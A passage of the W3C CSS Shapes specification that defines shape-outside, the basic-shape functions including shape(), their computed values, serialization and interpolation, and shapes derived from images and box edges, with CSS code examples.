> **Example:** In the following example the left and right floating `img` elements specify a triangular shape using the `shape-outside` property.
>
> ```
> 
> 
> <p>
>   Sometimes a web page's text content appears to be
>   funneling your attention towards a spot on the page
>   to drive you to follow a particular link. Sometimes
>   you don't notice.
> </p>
>
> <style type="text/css">
>   .left {
>     shape-outside: polygon(0 0, 100% 100%, 0 100%);
>     float: left;
>     width: 40%;
>     height: 12ex;
>     transform: scaleX(-1);
>   }
>
>   .right {
>     shape-outside: polygon(100% 0, 100% 100%, 0 100%);
>     float: right;
>     width: 40%;
>     height: 12ex;
>   }
>
>   p {
>     text-align: center;
>   }
> </style>
> ```
>
> 

> **Example:** Since shapes are clipped to the float’s margin box, adding this shape to the left float above would result in the same rendering.
>
> ```
> shape-outside: polygon(0 0, 500% 500%, 0 500%);
> ```

> **Example:** A shape that does not enclose any area still has edges that contribute to the float area.
>
> This inset shape is a vertical line positioned at the midpoint of the reference box. This midpoint edge is used as the edge of the float area for wrapping content.
>
> ```
> shape-outside: inset(0% 50% 0% 50%);
> ```
>
> If inset values add up to more than the width, [CSS Backgrounds 3 § 4.5 Overlapping Curves](#css-borders-4:corner-overlap) rules are used to determine the edges of the rectangle. This shape results in a vertical edge 25% from the left side of the reference box.
>
> ```
> shape-outside: inset(0% 150% 50% 0%);
> ```
>
> If the shape is only a horizontal line, then it is an empty float area and has no effect on wrapping. Note that in this example shape-margin must be 0px (otherwise the line would expand to enclose an area).
>
> ```
> shape-outside: inset(50% 0% 0% 50%);
> shape-margin: 0px;
> ```

> **Example:** A `shape-outside` can create open areas on both the left and right of a float area. Content still wraps only on one side of a float in this case. In the picture, the shape is rendered in blue, and the content area outside the shape in mauve.
>
> ```
> shape-outside: polygon(50px 0px, 100px 100px, 0px 100px);
> ```
>
> 

> **Example:** The following styling creates a shape much smaller than the float’s content area, and adds a margin-top to the float. In the picture, the shape is rendered in blue, the content area outside the shape in mauve, and the margin area of the float box in yellow. The inline content only wraps around the shape, and otherwise overlays the rest of the float margin box.
>
> ```
> .float-left {
>   shape-outside: polygon(0% 50%, 50% 100%, 0 100%);
>   float: left;
>   width: 100px;
>   height: 100px;
>   margin-top: 20px;
> }
> ```
>
> 
>
> The next picture shows a possible result if two of these floats were stacked next to each other. Note that the floats are positioned using their margin boxes, not the float area.
>
> 

### 3.  Basic Shapes {#css-shapes-1:basic-shape-functions}

The **<basic-shape>** type can be specified using basic shape functions.

```css
<basic-shape> = <basic-shape-rect> | <circle()> | <ellipse()> |  <polygon()> | <path()> | <shape()>
```

When using this syntax to define shapes, the **reference box** is defined by each property that uses `<basic-shape>` values. The coordinate system for the shape has its origin on the top-left corner of the reference box with the x-axis running to the right and the y-axis running downwards. All the lengths expressed in percentages are resolved from the used dimensions of the reference box.

#### 3.1.  Supported Shapes {#css-shapes-1:supported-basic-shapes}

The `<basic-shape>` functions are:

```css
<inset()> = inset(
  <length-percentage>{1,4}
  [ round <'border-radius'> ]?
)

<xywh()> = xywh(
  <length-percentage>{2} <length-percentage [0,∞]>{2}
  [ round <'border-radius'> ]?
)

<rect()> = rect(
  [ <length-percentage> | auto ]{4}
  [ round <'border-radius'> ]?
)

<basic-shape-rect> = <inset()> | <rect()> | <xywh()>

<circle()> = circle(
  <radial-size>?
  [ at <position> ]?
)

<ellipse()> = ellipse(
  <radial-size>?
  [ at <position> ]?
)

<polygon()> = polygon(
  <'fill-rule'>? 
  [ round <length> ]? ,
  [<length-percentage> <length-percentage>]#
)

<path()> = path(
  <'fill-rule'>? ,
  <string>
)

<shape()> = shape(
  <'fill-rule'>?
  from <position> ,
  <shape-command>#
)
```

****inset()****

: Defines an inset rectangle via insets from each edge of the reference box.

  If less than four `<length-percentage>` values are provided, the omitted values default in the same way as the `margin` shorthand: an omitted second or third value defaults to the first, and an omitted fourth value defaults to the second.

  The four `<length-percentage>`s define the position of the top, right, bottom, and left edges of a rectangle, respectively, as insets from the corresponding edges of the reference box.

  A pair of insets in either dimension that add up to more than the used dimension (such as left and right insets of 75% apiece) use the [CSS Backgrounds 3 § 4.5 Overlapping Curves](#css-borders-4:corner-overlap) rules to proportionally reduce the inset effect to 100%.

  > **Example:** For example, specifying `inset(75% 0 50% 0)` has the top+bottom edges summing to 125% of the reference box’s height. They’re proportionally reduced to sum to 100%, identical to specifying `inset(60% 0 40% 0)`.

  The optional `<'border-radius'>` argument(s) define rounded corners for the rectangle using the `border-radius` shorthand syntax.

****xywh()****

: Defines a rectangle via offsets from the top and left edge of the reference box, and a specified width and height.

  The four `<length-percentage>`s define, respectively, the inset from the left edge of the reference box, the inset from the top edge of the reference box, the width of the rectangle, and the height of the rectangle.

  > **Note:** This syntax is inspired by the `viewBox` attribute from SVG.

  The optional `<'border-radius'>` argument(s) define rounded corners for the inset rectangle using the `border-radius` shorthand syntax.

****rect()****

: Defines a rectangle via insets from the top and left edges of the reference box.

  The four `<length-percentage>`s define the position of the top, right, bottom, and left edges of a rectangle, respectively, as insets from the top edge of the reference box (for the first and third values) or the left edge of the reference box (for the second and fourth values).

  An `auto` value makes the edge of the box coincide with the corresponding edge of the reference box: it’s equivalent to `0%` as the first (top) or fourth (left) value, and equivalent to `100%` as the second (right) or third (bottom) value.

  The second (right) and third (bottom) values are floored by the fourth (left) and second (top) values, respectively.

  > **Example:** For example, specifying `rect(10px 0 0 20px)` would place the bottom edge higher than the top edge, and the right edge further left than the left edge, so both are corrected to not cross over the other edge, identical to specifying `rect(10px 20px 10px 20px)`.

  > **Note:** This syntax is similar, but not quite identical, to the legacy `rect()` function used solely by the `clip` property.

  The optional `<'border-radius'>` argument(s) define rounded corners for the rectangle using the `border-radius` shorthand syntax.)

****circle()****

: - The `<radial-size>` argument defines the circle’s radius. Rather than referring to the gradient box, values are resolved against the reference box. Two `<length-percentage>` values are invalid. If omitted it defaults to closest-side.
  - The `<position>` argument defines the center of the circle. Unless otherwise specified, this defaults to `center` if omitted.

****ellipse()****

: - The `<radial-size>` argument defines the horizontal and vertical radiuses of the ellipse. Rather than referring to the gradient box, values are resolved against the reference box. If omitted it defaults to closest-side.
  - The `<position>` argument defines the center of the ellipse. Unless otherwise specified, this defaults to `center` if omitted.

****polygon()****

: - The `<'fill-rule'>` specifies the filling rule used to determine the interior. Defaults to `nonzero` if omitted.
  - An optional `<length>` after a `round` keyword defines rounding for each vertex of the polygon. The length is the radius of a circle whose center lies on the bisector of the smaller angle of the vertex, and that is tangential to both sides of the vertex.

    > **Example:** 
    >
    > Rounding polygon vertices that are both convex and concave.

    To avoid rounding more than half of any line segment, the rounding of each vertex must be clamped separately such that the radius is never more than the smaller of `tan(angle/2) segment / 2` evaluated against both vertex line segments.

    > **Example:** 
    >
    > This diagram shows the intent of the clamping formula.
  - Each `<length-percentage>` pair specifies a vertex of the polygon, as a horizontal and vertical offset from the left and top edges of the reference box.

  The UA must close a polygon by connecting the last vertex with the first vertex of the list.

****path()****

: - The `<'fill-rule'>` specifies the filling rule used to determine the interior. Defaults to `nonzero` if omitted, unless the function is being used in a context such as SVG shapes where the `fill-rule` property is relevant. In that case an omitted value will use the computed value of the `fill-rule` property.
  - The `<string>` represents an [SVG Path data string](https://www.w3.org/TR/SVG11/paths.html#PathData). A path data string that does not conform to the to the grammar and parsing rules of SVG 1.1, or that does conform but defines an empty path, is invalid and causes the entire `path()` to be invalid.

    The initial position is defined by the first “move to” argument in the path string. For the initial direction follow SVG 1.1.

  The UA must close a path with an implicit closepath command ("z" or "Z") if it is not present in the string for properties that require a closed loop (such as `shape-outside` and `clip-path`).

****shape()****

: See [The shape() function](#css-shapes-1:shape-function).

##### 3.1.1.  The `shape()` Function {#css-shapes-1:shape-function}

While the `path()` function allows reuse of the SVG path syntax to define more arbitrary shapes than allowed by more specialized shape functions, it requires writing a path as a single string (which is not compatible with, for example, building a path piecemeal with `var()`), and inherits a number of limitations from SVG, such as implicitly only allowing the `px` unit.

The `shape()` function uses a set of commands roughly equivalent to the ones used by `path()`, but does so with more standard CSS syntax, and allows the full range of CSS functionality, such as additional units and math functions. The commands used by `shape()` are dynamically turned into path segments when it is used for rendering, e.g., when computing the rendered `clip-path`.

In that sense, `shape()` is a superset of `path()`. A `path()` can be easily converted to a `shape()`, but to convert a `shape()` back to a `path()` or to SVG requires information about the CSS environment (e.g. current values of CSS custom properties, current font size for `em` units, etc).

The `<'fill-rule'>` is interpreted identically to the same argument in `path()`.

The rest of the arguments define a list of path data commands, identical to that of an [SVG Path](https://www.w3.org/TR/SVG11/paths.html#PathData), which the function represents.

The `from <coordinate-pair>` represents the starting point for the first shape-command. It adds an initial [absolute moveto](https://www.w3.org/TR/SVG/paths.html#PathDataMovetoCommands) to the list of path data commands.

The sequence of **`<shape-command>`**s represent further [path data commands](https://www.w3.org/TR/SVG11/paths.html#PathData). Each command’s starting point is the previous command’s ending point.

```css
<shape-command> = <move-command> | <line-command> | close |
                  <horizontal-line-command> | <vertical-line-command> |
                  <curve-command> | <smooth-command> | <arc-command>

<move-command> = move <command-end-point>
<line-command> = line <command-end-point>
<horizontal-line-command> = hline
        [ to [ <length-percentage> | left | center | right | x-start | x-end ]
        | by <length-percentage> ]
<vertical-line-command> = vline
        [ to [ <length-percentage> | top | center | bottom | y-start | y-end ]
        | by <length-percentage> ]
<curve-command> = curve
        [ [ to <position> with <control-point> [ / <control-point> ]? ]
        | [ by <coordinate-pair> with <relative-control-point> [ / <relative-control-point> ]? ] ]
<smooth-command> = smooth
        [ [ to <position> [ with <control-point> ]? ]
        | [ by <coordinate-pair> [ with <relative-control-point> ]? ] ]
<arc-command> = arc <command-end-point>
            [ [ of <length-percentage>{1,2} ]
              && <arc-sweep>? && <arc-size>? && [rotate <angle>]? ]

<command-end-point> = [ to <position> | by <coordinate-pair> ]
<control-point> = [ <position> | <relative-control-point> ]
<relative-control-point> = <coordinate-pair> [ from [ start | end | origin ] ]?
<coordinate-pair> = <length-percentage>{2}
<arc-sweep> = cw | ccw
<arc-size> = large | small
```

****`<coordinate-pair>`** = `<length-percentage>`{2}**

: Defines a pair of coordinates, representing a rightward and downward offset, respectively, from a specified reference point. Percentages are resolved against the width or height, respectively, of the reference box.

****`<command-end-point>`** = [ **to** `<position>` | **by** `<coordinate-pair>` ]**

: Every command can be specified in "absolute" or "relative" coordinates, determined by their `by` or `to` component. `to` indicates that any `<coordinate-pair>`s in the command are relative to the top-left corner of the reference box, while `by` indicates that the <coordinate-pair>s are relative to the command’s starting point.

  `<relative-control-point>` defines how `by` and `to` are interpreted for curve control points, while `<horizontal-line-command>` and `<vertical-line-command>` define how `by` and `to` are interpreted for horizontal and vertical lines, respectively.

  When `to` is used, the coordinates can be specified as `<position>`s instead of `<coordinate-pair>`s.

  > **Note:** In either case, `<percentage>` values in `<coordinate-pair>`s are always computed relative to the reference box’s size.

****`<move-command>`** = **move** `<command-end-point>`**

: Adds a [moveto](https://www.w3.org/TR/SVG/paths.html#PathDataMovetoCommands) command to the list of path data commands, with an ending point specified by the `<coordinate-pair>`.

  This draws nothing, and merely "moves the pen" for the next command.

  > **Note:** This starts a new subpath, for the purpose of the `close` command.

****`<line-command>`** = **line** `<command-end-point>`**

: Adds a [lineto](https://www.w3.org/TR/SVG/paths.html#PathDataLinetoCommands) command to the list of path data commands, with an ending point specified by the `<coordinate-pair>`.

  This draws a straight line from the command’s starting point to its ending point.

****`<horizontal-line-command>`** = hline [ to [ `<length-percentage>` | left | center | right | x-start | x-end ] | by <length-percentage> ]**

: Adds a horizontal [lineto](https://www.w3.org/TR/SVG/paths.html#PathDataLinetoCommands) command to the list of path data commands.

  This is equivalent to a `line` command with the `<length-percentage>` given as the horizontal component of the `<coordinate-pair>`. Specifying the horizontal component of `<position>` instead of a <length-percentage> (`left`, `center`, `right`, `x-start`, or `x-end`), would draw a line to that <position>, with the <position>’s vertical component remaining the same as the starting point.

****`<vertical-line-command>`** = vline [ to [ `<length-percentage>` | top | center | bottom | y-start | y-end ] | by <length-percentage> ]**

: Adds a vertical [lineto](https://www.w3.org/TR/SVG/paths.html#PathDataLinetoCommands) command to the list of path data commands.

  This is equivalent to a `line` command with the `<length-percentage>` given as the vertical component of the `<coordinate-pair>`. Specifying the horizontal component of `<position>` (`top`, `center`, `bottom`, `y-start`, or `y-end`) instead of a <length-percentage>, would draw a line to that <position>, with the <position>’s horizontal component remaining the same as the starting point.

****`<curve-command>`** = **curve** [ [ to `<position>` with `<control-point>` [ / <control-point> ]? ] | [ by `<coordinate-pair>` with `<relative-control-point>` [ / <relative-control-point> ]? ] ]**

: Adds a Bézier curve command to the list of path data commands, ending at the point specified by the `<position>` following the `to` keyword, or the `<coordinate-pair>` following the `by` keyword, as specified by `<command-end-point>`.

  The `with` component specifies control points for the curve: if a single `<control-point>` or `<relative-control-point>` is provided, the command specifies a [quadratic curve](https://www.w3.org/TR/SVG/paths.html#PathDataQuadraticBezierCommands); if two <control-point>s or <relative-control-point>s are provided, it specifies a [cubic curve](https://www.w3.org/TR/SVG/paths.html#PathDataCubicBezierCommands).

****`<smooth-command>`** = **smooth** [ [ to `<position>` [with `<control-point>` ]? ] | [ by `<coordinate-pair>` [ with `<relative-control-point>` ]? ] ]**

: Adds a smooth Bézier curve command to the list of path data commands, ending at the point specified by the `<position>` following the `to` keyword, or the `<coordinate-pair>` following the `by` keyword, as specified by `<command-end-point>`. The `with` component specifies control points for the curve: if it’s omitted, the command specifies a [smooth quadratic curve](https://www.w3.org/TR/SVG/paths.html#PathDataQuadraticBezierCommands); if it’s provided, if specifies a [smooth cubic curve](https://www.w3.org/TR/SVG/paths.html#PathDataCubicBezierCommands).

  > **Note:** A `smooth` command is equivalent to a `curve` command with the first control point automatically specified as the reflection of the previous curve’s second control point around the starting point, or as the starting point if the previous path data command wasn’t a curve. This ensures G1 continuity with the previous command, so the curve appears to smoothly continue from the previous command, rather than possibly making a sudden direction change.

****`<control-point>`** = [ `<position>` | `<relative-control-point>` ]**

: Provides a control point to a quadratic or cubic Bézier curve.

****`<relative-control-point>`** = `<coordinate-pair>` [ from [ start | end | origin ] ]?**

: Provides a control point to a quadratic or cubic Bézier curve. When a `from` keyword is specified followed by `start`, `end`, or `origin`, the given `<coordinate-pair>` is relative to the command’s starting point, the command’s end point, or the reference box, respectively. If such component is not provided, the <coordinate-pair> is relative to the segment’s start.

****`<arc-command>`** = **arc** `<command-end-point>` [of `<length-percentage>`{1,2}] && `<arc-sweep>`? && `<arc-size>`? && rotate `<angle>`? ]**

: Add an [elliptical arc](https://www.w3.org/TR/SVG/paths.html#PathDataEllipticalArcCommands) command to the list of path data commands, ending at the `<command-end-point>`.

  The `of` component specifies the size of the ellipse that the arc is taken from. The first `<length-percentage>` provides the horizontal radius of the ellipse and the second provides the vertical radius. Like for `<coordinate-pair>`s, `<percentage>` values are resolved against the width or height of the reference box, as appropriate.

  If only one `<length-percentage>` is provided, both radiuses use the provided value. In that case, `<percentage>` values are resolved against the direction-agnostic size of the reference box (similar to the `circle()` function).

  > **Note:** that SVG has [some specific error-handling for the ellipse radiuses](https://w3c.github.io/svgwg/svg2-draft/paths.html#ArcOutOfRangeParameters):
  >
  > - if the endpoint is the same as the starting point, the command does nothing
  > - if either radius is zero, the command is equivalent to a `<line-command>` to the ending point
  > - if either radius is negative, its absolute value is used instead
  > - if the radiuses don’t describe an ellipse large enough to intersect both the starting point and ending point (after rotation by the specified `<angle>`), they are scaled up uniformly until the ellipse is just large enough to reach.

  The ellipse described by the specified radiuses defaults to being axis-aligned, but can be rotated by specifying an `<angle>`. Similar to the `rotate()` transform function, positive angles specify a clockwise rotation, and negative angles specify a counterclockwise rotation. If omitted, this defaults to `0deg`.

  The ending point, radiuses, and angle, taken together, usually define two possible ellipses that intersect the starting point and ending point, and each ellipse can be traced in either direction, for a total of four possible arcs. The `<arc-sweep>` and `<arc-size>` components specify which of these arcs is desired:

  - **`<arc-sweep>`** can be **cw** or **ccw**, indicating that the arc that is traced around the ellipse clockwise or counter-clockwise from the center, respectively, must be chosen. If omitted, this defaults to `ccw`.

    > **Note:** In the SVG arc command, `cw` corresponds to the value 1 for the sweep flag, and `ccw` to the value 0.
  - **`<arc-size>`** can be **large** or **small**, indicating that the larger or smaller, respectively, of the two possible arcs must be chosen. If omitted, this defaults to `small`.

    > **Note:** In the SVG arc command, `large` corresponds to the value 1 for the large flag, and `small` to the 0.

    > **Note:** If the starting and ending points are on exactly opposite sides of the ellipse, both possible arcs are the same size, but also there is only one possible ellipse. In this case, the `<arc-sweep>` distinguishes which of the two possible arcs will be chosen, and `<arc-size>` has no effect.

  

  A depiction of the two possible ellipses, and four possible arcs, that can be chosen between.

****close****

: Adds a [closepath](https://www.w3.org/TR/SVG/paths.html#PathDataClosePathCommand) command to the list of path data commands.

  > **Note:** This is similar to a `line` command with its ending point set to the starting point of the subpath. When specifying a raw shape, they’re identical, but if the path is stroked, the ending point of the `close` command is smoothly joined with the start of the subpath, which affects how line-joins and line-caps are rendered.

###### 3.1.1.1. Using `shape()` to create responsive, parametric speech bubble {#css-shapes-1:shape-examples}

> **Example:** The `shape()` function enables shapes that are responsive, rather than scalable. While the `polygon()` shape is also responsive, it only support simple rounded corners and not complex curves.
>
> To demonstrate, let’s start with a speech bubble, such as the following:
>
> 
>
> Using this shape with a `clip-path` can be done by using the `path()` function:
>
> ```
> .bubble { clip-path: path("m 5 0 H 95 Q 100 0 100 5 V 92 Q 100 97 95 97 H 70 l -2 3 l -2 -3 H 5 Q 0 97 0 92 V 5 Q 0 0 5 0") };
> ```
>
> Altohugh this path can easily scale, the scaled results are not always desirable. e.g. when scaled to a small balloon, the arrow and corners are scaled to become almost invisible:
>
> 
>
> To construct this shape using the `shape()` function, let’s start by turning all the pixel values from the `path` function to percentages. Note that the `shape()` function begins with `from`:
>
> ```
> .bubble { clip-path: shape(	from 5% 0%,
>               hline to 95%,
>               curve to 100% 5% with 100% 0%,
>               vline to 92%,
>               curve to 95% 97% with 100% 97%,
>               hline to 70%,
>               line by -2% 3%,
>               line by -2% -3%,
>               hline to 5%,
>               curve to 0% 92% with 0% 97%,
>               vline to 5%,
>               curve to 5% 0% with 0% 0%); }
> ```
>
> To make this path responsive, as in, respond well to size changes, we will convert some of its units to `px` values, specifically the ones the control the curves and arrows:
>
> ```
> .bubble { clip-path: shape(	from 5px 0%,
>               hline to calc(100% - 5px),
>               curve to 100% 5px with 100% 0%,
>               vline to calc(100% - 8px),
>               curve to calc(100% - 5px) calc(100% - 3px) with 100% calc(100% - 3px),
>               hline to 70%,
>               line by -2px 3px,
>               line by -2px -3px,
>               hline to 5px,
>               curve to 0% calc(100% - 8px) with 0% calc(100% - 3px),
>               vline to 5px,
>               curve to 5px 0% with 0% 0%); }
> ```
>
> When applied as `clip-path`, it would looks like the following:
>
> 
>
> The whole speech bubble is scaled to the reference box, while the curves and arrows stay more constant.
>
> Since `shape()` uses CSS units, we can replace some of the edges with `position` values:
>
> ```
> .bubble { clip-path: shape(from 5px 0,
>               hline to calc(100% - 5px),
>               curve to right 5px with right top,
>               vline to calc(100% - 8px),
>               curve to calc(100% - 5px) calc(100% - 3px) with right calc(100% - 3px),
>               hline to 70%,
>               line by -2px 3px,
>               line by -2px -3px,
>               hline to 5px,
>               curve to left calc(100% - 8px) with left calc(100% - 3px),
>               vline to 5px,
>               curve to 5px top with left top); }
> ```
>
> Another useful feature of `shape()` is that it can be used alongside CSS properties. In this case, we can make the arrow and radius parametric:
>
> ```
> :root {
>   --radius: 5px;
>   --arrow-length: 3px;
>   --arrow-half-width: 2px;
>   --arrow-position: 70%;
>   --arrow-bottom-offset: calc(100% - var(--radius) - var(--arrow-length));
> }
>
> .bubble {
>   animation: bubble 100ms;
>   clip-path: shape(from var(---radius) top,
>     hline to calc(100% - var(---radius)),
>     curve to right var(---radius) with right top,
>     vline to var(---arrow-bottom-offset),
>     curve to calc(100% - var(---radius)) calc(100% - var(---arrow-length))
>               with right calc(100% - var(---arrow-length)),
>     hline to var(---arrow-position),
>     line by var(---arrow-half-width) var(---arrow-length),
>     line by var(---arrow-half-width) calc(0px - var(---arrow-length)),
>     hline to var(---radius),
>     curve to left var(---arrow-bottom-offset) with left calc(100% - var(---arrow-length)),
>     vline to var(---radius),
>     curve to var(---radius) top with left top); }
> ```

###### 3.1.1.2.  Interpolating the `shape()` Function {#css-shapes-1:interpolating-shape}

`shape()` and `path()` functions can be interpolated with each other if their associated list of path data commands is the same length and has the same commands, in order, with the first command of the `path()` function interpolating with the initial `<coordinate-pair>` in the `shape()` function.

> **Note:** The first command of a `path()` function is guaranteed to be a `move`, see [moveTo](https://www.w3.org/TR/SVG2/paths.html#PathDataMovetoCommands) in the SVG spec.

If the starting and ending values are both `path()` functions, the interpolated value is a `path()` function; otherwise it’s a `shape()` function. In either case, the interpolated value must represent the same list of path data commands, with each command having its numerical components interpolated between the corresponding components of the starting and ending list.

For this purpose, commands are "the same" if they use the same command keyword, and use the same <by-to> keyword. For `curve` and `smooth`, they also must have the same number of control points.

If an `arc` command has different `<arc-sweep>` between its starting and ending list, then the interpolated result uses `cw` for any progress value between 0 and 1. If it has different `<arc-size>` keywords, then the interpolated result uses `large` for any progress value between 0 and 1.

> **Note:** The `arc` keyword interpolation rules are meant to match existing SVG `path` interpolation rules.

#### 3.2.  Computed Values of Basic Shapes {#css-shapes-1:basic-shape-computed-values}

The values in a `<basic-shape>` function are computed as specified, with these exceptions:

- Omitted values are included and compute to their defaults.
- A `<position>` value in `circle()` or `ellipse()` is computed as a pair of offsets (horizontal then vertical) from the top left origin, each given as a `<length-percentage>`.
- A `<'border-radius'>` value in a `<basic-shape-rect>` function is computed as an expanded list of all eight `<length-percentage>` values.
- All `<basic-shape-rect>` functions compute to the equivalent `inset()` function.

  > **Note:** Given `rect(t r b l)`, the equivalent function is `inset(t calc(100% - r) calc(100% - b) l)`. Given `xywh(x y w h)`, the equivalent function is `inset(y calc(100% - x - w) calc(100% - y - h) x)`.

#### 3.3.  Serialization of Basic Shapes {#css-shapes-1:basic-shape-serialization}

To serialize the `<basic-shape>` functions, serialize as per their individual grammars, in the order the grammars are written in, joining space-separated tokens with a single space, and following each serialized comma with a single space. For serializing computed values, component values are computed, and omitted when possible without changing the meaning.

> **Example:** As specified value serialization of the shape functions are relatively trivial, here are some examples of computed value serializations for `circle()` notations when used in `shape-outside`:
>
> - `<position>` [serialization rules](#css-values-4:position-serialization) mean that keywords compute to percentages, and serialize in horizontal-vertical order.
>
>   ```
>   circle(at bottom left)
>   /* serializes to */
>   circle(at 0% 100%)
>   ```
> - Omitting optional components means that default values do not show up in the serialization.
>
>   ```
>   circle(closest-side at center)
>   /* serializes to */
>   circle()
>   ```
> - Value [computation](#css-cascade-5:computed) means that some functions [canonicalize to a different form](#css-shapes-1:basic-shape-computed-values).
>
>   ```
>   rect(10px 20px 30px 40px)
>   /* serializes to */
>   inset(10px calc(100% - 20px) calc(100% - 30px) 40px)
>   ```

#### 3.4.  Interpolation of Basic Shapes {#css-shapes-1:basic-shape-interpolation}

For interpolating between one basic shape and a second, the rules below are applied. The values in the shape functions interpolate [by computed value](#web-animations-1:by-computed-value). The list values interpolate as length, percentage, or calc where possible. If list values are not one of those types but are identical (such as finding `nonzero` in the same list position in both lists) those values do interpolate.

- Both shapes must use the same reference box.
- If both shapes are the same type, that type is `ellipse()` or `circle()`, and the radiuses are specified as `<length-percentage>` (rather than keywords), interpolate between each value in the shape functions.
- If both shapes are of type `inset()`, interpolate between each value in the shape functions.
- If both shapes are of type `polygon()`, both polygons have the same number of vertices, and use the same `<'fill-rule'>`, interpolate between each value in the shape functions.
- In all other cases no interpolation is specified.

### 4.  Shapes from Image {#css-shapes-1:shapes-from-image}

Another way of defining shapes is by specifying a source `<image>` whose alpha channel is used to compute the shape. The shape is computed to be the path or paths that enclose the area(s) where the opacity of the specified image is greater than the `shape-image-threshold` value. The absence of any pixels with an alpha value greater than the specified threshold results in an empty float area that will not affect wrapping. If the `shape-image-threshold` is not specified, the initial value to be considered is 0.0.

The image is sized and positioned as if it were a replaced element whose specified width and height are the same as the element’s used content box size.

For animated raster image formats (such as [GIF](http://www.w3.org/Graphics/GIF/spec-gif89a.txt)), the first frame of the animation sequence is used.

> **Example:** An image is floating to the left of a paragraph. The image shows the 3D version of the CSS logo over a transparent background. The logo has a shadow using an alpha-channel.
>
> The image defines its float area through the `shape-outside` property.
>
> ```
>   <p>
>     
>     blah blah blah blah...
>   </p>
>
>   <style>
>     #CSSlogo {
>       float: left;
>       shape-outside: attr(src url);
>       shape-image-threshold: 0.1;
>     }
>   </style>
> ```
>
> The `shape-outside` property re-uses the url from the src attribute of the img element.
>
> It is perfectly possible to display an image and use a different image for its float area.
>
> In the figure below, the alpha-channel threshold is represented by the dotted line around the CSS logo.
>
> It’s then possible to affect where the lines of the paragraph start in three ways:
>
> 1. Modifying the alpha channel in the image
> 2. Changing the value of the `shape-image-threshold` property
> 3. Changing the value of the `shape-margin` property (see example 8)
>
> 
>
> A float shape around an image using its alpha-channel.

### 5.  Shapes from Box Values {#css-shapes-1:shapes-from-box-values}

Shapes can be defined by reference to edges in the [CSS Box Model](#css-box-4:box-model) [CSS-BOX-4]. When used to define a shape, these edges include corner shaping from `border-radius` and `corner-shape` as defined by the element’s border contour path [CSS-BORDERS-4]. The `<shape-box>` value extends the `<visual-box>` value to include `margin-box` and `half-border-box`. Its syntax is:

```css
<shape-box> = <visual-box> | margin-box | half-border-box
```

Each `<shape-box>` value corresponds to a reference box inset from the element’s border box on each side by a signed inset (where negative values outset the box). When a <shape-box> value is used by itself to define a shape, it defines the shape enclosed by the border contour path given the element and those insets:

****margin-box****

: Refers to the margin box, inset from the border box by the negated used margin on each side.

  > **Note:** For positive margins, border contour path applies the outset-adjusted border radius.

****border-box****

: Refers to the border box, with zero inset on each side (forming the element’s outer contour).

****half-border-box****

: Refers to the box halfway between the border box and the padding box, inset from the border box by half of the used border width on each side.

****padding-box****

: Refers to the padding box, inset from the border box by the used border width on each side (forming the element’s inner contour).

****content-box****

: Refers to the content box, inset from the border box by the sum of the used border width and padding on each side.

> **Example:** Given the 100px square below with 10px padding, border and margins, the box values define these shapes:
>
> - `margin-box`: the shape containing all of the yellow pixels
> - `border-box`: the shape containing all of the black pixels
> - `padding-box`: the shape containing all of the mauve pixels
> - `content-box`: the shape containing all of the blue pixels
>
> 
>
> Simple CSS Box Model Edges
>
> And the same definitions apply to a more complex example with the same 100px square, but with these border, padding and margin properties:
>
> ```
>   border-radius: 20px 20px 20px 40px;
>   border-width: 30px 10px 20px 10px;
>   padding: 10px 20px 10px 10px;
>   margin: 20px 10px 10px 10px;
> ```
>
> 
>
> Complex CSS Box Model Edges

> **Example:** The difference between normal float wrapping and wrapping around the shape defined by the margin-box value is that the margin-box shape includes corner shaping. Take the 100px square with 10px padding, border and margins, but with a border-radius of 60px. If you make a left float out of it, content normally wraps in this manner:
>
> 
>
> Normal float wrapping
>
> If you add a margin-box shape to the float, then content wraps around the rounded margin-box corners.
>
> ```
>   shape-outside: margin-box;
> ```
>
> 
>
> Float wrapping with margin-box

### 6.  Declaring Shapes {#css-shapes-1:declaring-shapes}

Shapes are declared with the `shape-outside` property, with possible modifications from the `shape-margin` property. The shape defined by the `shape-outside` and `shape-margin` properties changes the geometry of a float element’s float area.

#### 6.1.  Float Area Shape: the `shape-outside` property {#css-shapes-1:shape-outside-property}

| Field | Value |
| --- | --- |
| Name: | **shape-outside** |
| [Value:](#css-values-4:value-defs) | none \| [ `<basic-shape>` \|\| `<shape-box>` ] \| `<image>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | floats and initial letter boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as [defined](#css-shapes-1:basic-shape-computed-values) for `<basic-shape>` (with `<shape-box>` following, if supplied); else the computed `<image>`; else the keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as [defined](#css-shapes-1:basic-shape-interpolation) for `<basic-shape>`, otherwise discrete |

The values of this property have the following meanings:

****none****

: The float area is unaffected.

**`<shape-box>`**

: If one of these values is specified by itself, the shape is computed for the specified `<shape-box>` as defined in [§ 5 Shapes from Box Values](#css-shapes-1:shapes-from-box-values).

****`<basic-shape>`****

: The shape is computed based on one of the `<basic-shape>` functions. If a `<shape-box>` is also supplied, this defines the reference box for the <basic-shape> function. If <shape-box> is not supplied, then the reference box defaults to `margin-box`.

****`<image>`****

: The shape is extracted and computed based on the alpha channel of the specified `<image>` as defined by `shape-image-threshold`.

  User agents must use the [CORS protocol](https://fetch.spec.whatwg.org/#http-cors-protocol) defined by the [FETCH] specification for all URLs in a `shape-outside` value. When fetching, user agents must use "Anonymous" mode, set the referrer source to the stylesheet’s URL and set the origin to the URL of the containing document. If this results in network errors such that there is no valid fallback image, the effect is as if the value `none` had been specified.

#### 6.2.  Choosing Image Pixels: the `shape-image-threshold` property {#css-shapes-1:shape-image-threshold-property}

The `shape-image-threshold` defines the alpha channel threshold used to extract the shape using an image. A value of 0.5 means that the shape will enclose all the pixels that are more than 50% opaque.

| Field | Value |
| --- | --- |
| Name: | **shape-image-threshold** |
| [Value:](#css-values-4:value-defs) | `<opacity-value>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | floats |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified number, clamped to the range [0,1] |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |

The values of this property have the following meanings:

****`<number>`****

